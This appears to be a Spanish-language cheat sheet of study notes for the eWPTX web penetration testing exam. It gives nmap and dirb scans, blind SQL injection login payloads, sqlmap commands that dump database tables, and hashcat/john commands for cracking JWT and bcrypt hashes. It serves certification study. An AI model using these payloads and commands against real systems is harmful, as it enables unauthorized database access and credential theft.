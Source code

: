 # eWPTX
---
## Escaneo de puertos
![image](https://github.com/user-attachments/assets/02a7281d-02c7-43ec-afe6-ece2eecf0317)

nmap -n -Pn -p- --open -vvv -T5 [IP] 

## Enumeración
![image](https://github.com/user-attachments/assets/1d95388b-e208-4b30-8e2c-ad1943a44dee)

dirb http://172.17.0.2/ [rockyou, common, big] -N 401 (Ignora un método) -r (No es recursivo)
##
dirsearch -u http://[IP]/ -w [WORDLIST] -t 16 -e php,txt -f (NO ESTÁ DISPONIBLE EN EL EXAMEN)

---

## 💉 Inyección SQL (SQLi): Blind SQLi
En el examen: MAGENTO ES VULNERABLE A SQLi

En las inyecciones a ciegas, el resultado no se ve en la pantalla (son deductivas... a partir del comportamiento de la aplicación)
### BOOLEAN
Tiene un comportamiento verdadero o falso (0 o 1)

|User: |' OR 1=1-- -|
|----|-----|
|Pass: |' OR 1=1-- -|

|User: |' OR (substring(database(),1,1))='p' -- -|
|-------|-------------|
|Pass: |' OR (substring(database(),1,1))='p' -- -|

|User: |' OR (ascii(substring(database(),1,1)))='45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))='45' -- -|

|User: |' OR (ascii(substring(database(),1,1)))>'45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))>'45' -- -|

Se puede automatizar con el BurpSuite:

Intruder --> payloads (numero) --> 32-126 

settings --> Redirections (always)


---
### TIME
Tiempo de carga (¿Cuanto demora en carga una página web?)


### OOB
Si se puede lelvar la info fuera del servidor
## 

### SQLMAP
--technique=BTU

--risk=

1: Payload a nivel de select y uniones

2: Payload de tiempo. Por ejemplo SLEEP.

3: Payload basados en BOOLEAN en OR

--level=

1: inyecciones en metodos GET/POST

2: inyecciones en las cookies

3: inyecciones en los headers: user-agent, referer

4: inyecciones todos los headers

5: inyecciones en todos los parametros sin excepción

### Boolean

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 --current-db --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB --tables --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB -T usuarios --dump --dbms=mysql

### Time

- sqlmap -r request_time.txt -p descripción --technique=T --risk=3 --level=3 --current-db --dbms=mysql --flush-session

### Orden para usar SQLMAP

- sqlmap -r request.txt
- sqlmap -u 'http://localhost/' -p idmagento(parameter) --dbs
- sqlmap -u 'http://localhost/' -p idmagento(parameter) --current-db
- sqlmap -u 'http://localhost/' -p idmagento(parameter) -D magento --tables
- sqlmap -u 'http://localhost/' -p idmagento(parameter) -D magento -T user --start=1 --stop=10

---

## JWT
### Tools
- hashcat
- Ayuda: hashcat --help | grep JWT
- Ejemplo: hashcat -m 16500 --force -a 0 token.jwt /usr/share/wordlists/rockyou.txt

### John para Hashes con SALT & PEPPER
- bcrypt.hash (Lista de hashes con SALT & PEPPER)
- john --format=bcrypt bcrypt.hash --wordlist=/usr/share/wordlists/rockyou.txt



## ♟️ Estratégia
1. Iniciar por el CMS MAGENTO
   
   - Version: [IP]/magento/magento_version (Buscar vulnerabilidad de la versión)

